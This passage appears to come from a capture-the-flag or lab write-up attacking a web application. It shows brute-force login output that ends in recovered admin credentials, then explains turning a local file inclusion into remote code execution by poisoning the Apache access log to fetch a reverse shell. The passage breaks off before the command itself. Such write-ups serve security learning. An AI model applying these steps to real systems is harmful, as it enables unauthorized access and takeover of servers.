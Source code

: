 ```python
[+] Trying admin13admin… ✗
[+] Trying admin14admin… ✗
[+] Trying admin15admin… ✗
[+] Trying admin16admin… ✗
[+] Trying admin17admin… ✗
[+] Trying admin18admin… ✗
[+] Trying admin19admin… ✗
[+] Trying admin20admin… ✗
[+] Trying admin21admin… ✗
[+] Trying admin22admin… ✗
[+] Trying admin23admin… ✗
[+] Trying admin24admin… ✗
[+] Trying admin25admin… ✗
[+] Trying admin26admin… ✗
[+] Trying admin27admin… ✗
[+] Trying admin28admin… ✗
[+] Trying admin29admin… ✗
[+] Trying admin30admin… ✗
[+] Trying admin31admin… ✗
[+] Trying admin32admin… ✗
[+] Trying admin33admin… ✗
[+] Trying admin34admin… ✗
[+] Trying admin35admin… ✗
[+] Trying admin36admin… ✗
[+] Trying admin37admin… ✗
[+] Trying admin38admin… ✗
[+] Trying admin39admin… ✗
[+] Trying admin40admin… ✗
[+] Trying admin41admin… ✗
[+] Trying admin42admin… ✗
[+] Trying admin43admin… ✗
[+] Trying admin44admin… ✅  SUCCESS!
    → admin password is: admin44admin
```


We got our credentials:

```
admin:admin44admin
```

![](cybersecurity/images/Pasted%2520image%252020250519193418.png)

We are now able to get access to the admin panel, let's check the `details.php` page:

![](cybersecurity/images/Pasted%2520image%252020250519193521.png)

As seen, it changed, `LFI` works now, knowing this, we can achieve `RCE` using this:

![](cybersecurity/images/Pasted%2520image%252020250519195900.png)

Using `/var/log/apache2/access.log`, we can download a reverse shell into the server and execute it, we need to host the file in a python server, then use:
